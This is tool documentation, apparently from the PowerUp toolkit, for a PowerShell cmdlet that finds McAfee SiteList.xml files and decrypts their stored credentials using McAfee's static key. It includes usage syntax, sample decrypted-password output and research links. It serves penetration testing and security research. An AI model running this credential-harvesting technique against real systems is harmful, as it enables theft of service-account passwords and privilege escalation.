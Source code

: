 # Get-SiteListPassword

## SYNOPSIS
Retrieves the plaintext passwords for found McAfee's SiteList.xml files.
Based on Jerome Nokin (@funoverip)'s Python solution (in links).

Author: Jerome Nokin (@funoverip)  
PowerShell Port: @harmj0y  
License: BSD 3-Clause  
Required Dependencies: None

## SYNTAX

```
Get-SiteListPassword [[-Path] <String[]>]
```

## DESCRIPTION
Searches for any McAfee SiteList.xml in C:\Program Files\, C:\Program Files (x86)\,
C:\Documents and Settings\, or C:\Users\.
For any files found, the appropriate
credential fields are extracted and decrypted using the internal Get-DecryptedSitelistPassword
function that takes advantage of McAfee's static key encryption.
Any decrypted credentials
are output in custom objects.
See links for more information.

## EXAMPLES

### -------------------------- EXAMPLE 1 --------------------------
```
Get-SiteListPassword
```

EncPassword : jWbTyS7BL1Hj7PkO5Di/QhhYmcGj5cOoZ2OkDTrFXsR/abAFPM9B3Q==
UserName    :
Path        : Products/CommonUpdater
Name        : McAfeeHttp
DecPassword : MyStrongPassword!
Enabled     : 1
DomainName  :
Server      : update.nai.com:80

EncPassword : jWbTyS7BL1Hj7PkO5Di/QhhYmcGj5cOoZ2OkDTrFXsR/abAFPM9B3Q==
UserName    : McAfeeService
Path        : Repository$
Name        : Paris
DecPassword : MyStrongPassword!
Enabled     : 1
DomainName  : companydomain
Server      : paris001

EncPassword : jWbTyS7BL1Hj7PkO5Di/QhhYmcGj5cOoZ2OkDTrFXsR/abAFPM9B3Q==
UserName    : McAfeeService
Path        : Repository$
Name        : Tokyo
DecPassword : MyStrongPassword!
Enabled     : 1
DomainName  : companydomain
Server      : tokyo000

## PARAMETERS

### -Path
Optional path to a SiteList.xml file or folder.

```yaml
Type: String[]
Parameter Sets: (All)
Aliases: 

Required: False
Position: 1
Default value: None
Accept pipeline input: True (ByValue)
Accept wildcard characters: False
```

## INPUTS

## OUTPUTS

### PowerUp.SiteListPassword

## NOTES

## RELATED LINKS

[https://github.com/funoverip/mcafee-sitelist-pwd-decryption/
https://funoverip.net/2016/02/mcafee-sitelist-xml-password-decryption/
https://github.com/tfairane/HackStory/blob/master/McAfeePrivesc.md
https://www.syss.de/fileadmin/dokumente/Publikationen/2011/SySS_2011_Deeg_Privilege_Escalation_via_Antivirus_Software.pdf](https://github.com/funoverip/mcafee-sitelist-pwd-decryption/
https://funoverip.net/2016/02/mcafee-sitelist-xml-password-decryption/
https://github.com/tfairane/HackStory/blob/master/McAfeePrivesc.md
https://www.syss.de/fileadmin/dokumente/Publikationen/2011/SySS_2011_Deeg_Privilege_Escalation_via_Antivirus_Software.pdf)

